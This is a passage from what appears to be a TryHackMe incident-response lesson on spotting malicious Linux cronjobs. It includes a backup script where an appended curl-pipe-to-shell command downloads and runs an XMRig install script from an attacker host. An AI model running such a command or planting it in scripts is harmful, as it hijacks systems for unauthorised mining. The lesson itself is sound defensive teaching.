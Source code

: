 ```shell-session
investigator@tryhackme:~$ cat /var/tmp/backup
#!/bin/bash

tar -czf web_backup.tar.gz /var/www/html && curl -sSL http://h4x0rcr7pt.thm/install-xmrig.sh | sh
```

Although the backup script initially appears to perform a legitimate backup operation, an additional command has been appended to download and execute an install script via `curl`. From the name of the script, it appears to be related to the XMRig cryptocurrency mining software and warrants further investigation. This example illustrates a common tactic attackers use to leverage compromised systems for unauthorised cryptocurrency mining.

Next, additional system cronjob directories are important for a thorough analysis. These directories are found under the `/etc/` directory with the following naming convention:

* /etc/cron.hourly/ - System cronjobs that run once per hour.
* /etc/cron.daily/ - System cronjobs that run once per day.
* /etc/cron.weekly/ - System cronjobs that run once per week.
* /etc/cron.monthly/ - System cronjobs that run once per month.
* /etc/cron.d/ - Additional custom system cronjobs.

With these locations in mind, we can list out any configured cronjobs with the `ls` command:

### Listing Additional Cronjobs

```shell-session
investigator@tryhackme:~$ ls /etc/cron.d
anacron  e2scrub_all  popularity-contest
investigator@tryhackme:~$ ls /etc/cron.hourly
beacon
investigator@tryhackme:~$ ls /etc/cron.daily
0anacron  apt-compat    cracklib-runtime  logrotate  popularity-contest
apport    bsdmainutils  dpkg              man-db     update-notifier-common
investigator@tryhackme:~$ ls /etc/cron.weekly
0anacron  man-db  update-notifier-common
investigator@tryhackme:~$ ls /etc/cron.monthly
0anacron
```

In the output above, most of these cronjobs look benign - however, it's always important to investigate their contents to be sure. Similar to processes, this is why it's always essential to have a pre-established baseline in order to spot anomalies quickly.

/var/spool/cron/crontabs/

After investigating the system-level cronjobs, we can look at the various user-level cronjobs configured by users on the system. User-level cronjobs are specific to individual user configuration files and are managed independently of system-wide cronjobs. We can navigate to the `/var/spool/cron/crontabs/` directory. Each user with permission to use cron will have their file inside this directory, named after their username.

There are several ways to enumerate this information. The easiest way is to list the contents of the directory with sudo-privileges:

### Listing User-Level Cronjobs
